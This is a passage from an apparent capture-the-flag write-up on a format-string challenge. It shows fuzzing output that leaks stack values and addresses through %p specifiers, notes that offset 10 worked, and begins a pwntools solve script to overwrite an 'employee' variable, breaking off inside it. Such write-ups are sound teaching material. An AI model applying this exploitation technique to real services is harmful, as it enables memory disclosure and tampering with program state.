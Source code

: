 ```python

# Close the process after testing
io.close()
```

We run that and see our `AAAA` lands at various offsets, e.g. `8`, `10`, `12` etc.

```bash
python fuzz.py REMOTE 127.0.0.1 1339
[+] Opening connection to 127.0.0.1 on port 1339: Done
[+] Receiving all data: Done (565B)
[*] Closed connection to 127.0.0.1 port 1339
Leaked value at %<0$p>: Your
Leaked value at %<1$p>: floor
Leaked value at %<2$p>: mat
Leaked value at %<3$p>: will
Leaked value at %<4$p>: be
Leaked value at %<5$p>: shipped
Leaked value at %<6$p>: to:
Leaked value at %<7$p>: AAAA
Leaked value at %<8$p>: 0x1
Leaked value at %<9$p>: AAAA
Leaked value at %<10$p>: 0x1
Leaked value at %<11$p>: AAAA
Leaked value at %<12$p>: 0x7f18eef14887
Leaked value at %<13$p>: AAAA
Leaked value at %<14$p>: 0x24
Leaked value at %<15$p>: AAAA
Leaked value at %<16$p>: (nil)
Leaked value at %<17$p>: AAAA
Leaked value at %<18$p>: 0x7ffc002c8238
Leaked value at %<19$p>: AAAA
Leaked value at %<20$p>: 0x100000000
Leaked value at %<21$p>: AAAA
Leaked value at %<22$p>: (nil)
Leaked value at %<23$p>: AAAA
Leaked value at %<24$p>: 0x600000000
Leaked value at %<25$p>: AAAA
Leaked value at %<26$p>: 0x2431252041414141
Leaked value at %<27$p>: AAAA
Leaked value at %<28$p>: 0x2520414141412070
```

Not all of these offsets will work. I tried `8` and it didn't work but `10` did. You should be able to automate this stage as well but I couldn't get it working (I don't do pwn challenges anymore xD).

So here's a `pwntools` script to solve the challenge for us! It will overwrite the `employee` variable with a `1`.

### solve.py

```python
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDB script below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # Remote execution
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Local execution
        return process([exe] + argv, *a, **kw)

# Specify your GDB script here for debugging
gdbscript = '''
```